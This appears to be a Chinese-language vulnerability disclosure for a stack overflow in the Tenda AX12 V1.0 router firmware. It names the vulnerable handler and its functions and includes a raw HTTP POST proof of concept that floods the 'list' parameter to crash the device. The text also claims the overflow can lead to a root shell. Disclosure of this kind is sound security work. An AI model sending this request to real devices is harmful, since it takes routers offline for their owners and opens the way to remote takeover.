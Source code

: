 
### **概述**：
影响设备：Tenda AX12 V1.0
影响固件版本：V22.03.01.46
影响：拒绝服务攻击，栈溢出可以进一步获得root shell
固件下载地址：<https://www.tenda.com.cn/download/detail-3621.html>


![](xz.png)

### **漏洞**：
该漏洞位于`/goform/SetVirtualServerCfg`中对获取的请求参数`list`没有长度限制，最终可以导致堆栈溢出
在`httpd`文件中的`sub_41DE60`函数中存在目标漏洞函数`sub_43B1B4`

![](v1.png)

漏洞存在于`sub_43AF3C`中：

![](v2.png)

可以看到将请求参数`list`传入变量`v3`，由于并未对变量`v3`做长度限制，下面的`sscanf`函数将以逗号作为分隔将`v3`的值分别传入`v12,v11,v10,v9`，而这几个变量只需要一定长度的填充就可以栈溢出，可以轻易的导致拒绝服务攻击，进一步构造exp能够获取shell,漏洞如下图:

![](vuln3.png)


### **POC**:

~~~
POST /goform/SetVirtualServerCfg HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 23
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Host: 192.168.122.15
Origin: http://192.168.122.15
Proxy-Connection: keep-alive
Referer: http://192.168.122.15/index.html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest

list="a"*0x2000

~~~

### **影响效果**：


![](repo/Tenda%20AX12%20%20V1.0/2/img/after.png)